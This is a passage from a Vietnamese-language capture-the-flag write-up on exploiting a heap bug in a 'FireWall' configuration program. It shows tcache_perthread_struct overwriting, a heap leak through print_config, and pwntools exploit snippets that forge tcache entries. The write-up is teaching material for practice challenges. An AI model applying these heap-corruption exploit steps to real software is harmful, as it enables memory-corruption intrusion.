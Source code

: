 FireWall 1 ở địa chỉ `0x20824d0`, ta thấy ở libc này, key của tcachebin[0] = địa chỉ của `tcache_perthread_struct`

Khi ta cố truy cập FireWall 1 lúc này, khi đó FireWall.setting = địa chỉ của `tcache_perthread_struct` từ đó ta có thể ghi đè luôn `tcache_perthread_struct`

Hàm `print_config` gọi hàm `printf` để in ra:

```c
int __fastcall print_config(FireWall **list, int idx)
{
  putchar(10);
  printf("ID: %d\n", (unsigned int)list[idx]->id);
  printf("Setting: %s\n", list[idx]->setting);
  printf("Is active: %d\n", list[idx]->active);
  return putchar(10);
}
```

Thật khó để leak heap vì hàm `add_config` cũng sử dụng hàm `fgets` để nhận, luôn có null bytes ở sau T_T.

Sau một hồi suy nghĩ thì mình suy ra được một cách là 
fill up `tcache_perthread_struct.counts` với byte `7` ( để nó không thêm chunk nào mới vào và vì ở version libc này kiểu của `counts` vẫn là `char` ), nhưng mình cũng sẽ để  `counts[0]=0`, khi mình add FireWall 1 rồi free nó 1 lần nữa thì :

* `counts[0]=1` và `tcache_entry *entries[0] = FireWall 1`
* Lúc này `FireWall1.setting = tcache_perthread_struct`, khi gọi hàm `print_config` ra, do counts đã được fill up với các byte khác NULL nên `entries[0]` cũng sẽ được in ra luôn -> từ đó ta leak được heap. 

```python
add(1,0x250-8,b"B"*8)
p.sendline(b"4")
view(1)
p.recvuntil(b"Setting: " )
p.recv(0x40)
heap = u32(p.recv(4))
chunk0 = heap - 0x4e0
log.success(f"heap leak: {hex(heap)}")
```
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/80f72a84-e025-4d23-a1d5-bbd7f329c608)

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/767855cf-742e-4a5a-82f6-73acfe2bcebe)

Có được heap rồi, mình muốn malloc FireWall 1 sao cho setiing của nó sẽ trùng với FireWall 0

```python 
hold = heap - 0x240
add(1,0x250-8,p64(0)*2+p64(chunk0))
p.sendline(b"4")
edit(1,0,0x250-8,p8(2)+p8(7)*34+p8(8)+p8(7)*(64-36)+p64(hold))
```
Đơn giả là chỉ cần ghi đè `counts[0]=2` và `entries[0]` là chunk có chứa địa chỉ của FireWall 0.

